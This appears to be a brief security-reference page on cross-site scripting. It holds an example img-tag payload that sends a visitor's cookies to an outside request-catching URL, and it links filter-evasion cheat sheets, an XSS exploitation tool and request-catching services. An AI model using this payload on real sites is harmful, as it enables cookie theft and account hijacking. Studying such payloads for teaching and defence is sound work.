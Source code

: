The **XSS** vulnerability occurs when a user can control the content of a web page. A malicious code can be used to steal cookies of authentified users, redirect the user to a malicious site, or even execute arbitrary code on the user's machine.

Exemple of XSS :

```html
<img src="#" onerror="document.location='http://requestbin.fullcontact.com/168r30u1?c' + document.cookie">
```

* [XSS Cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

* Filter Evasion

	[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) can be used to bypass XSS filters.



* [XSStrike](https://github.com/UltimateHackers/XSStrike)

	A python CLI tool for XSS detection and exploitation.

* [`requestb.in`](https://requestb.in/)

	Can be used to catch HTTP requests. Typically these are controlled and set by finding a [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerabilty.

* [`hookbin.com`](https://hookbin.com/)

	Can be used to catch HTTP requests. Typically these are controlled and set by finding a [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerabilty.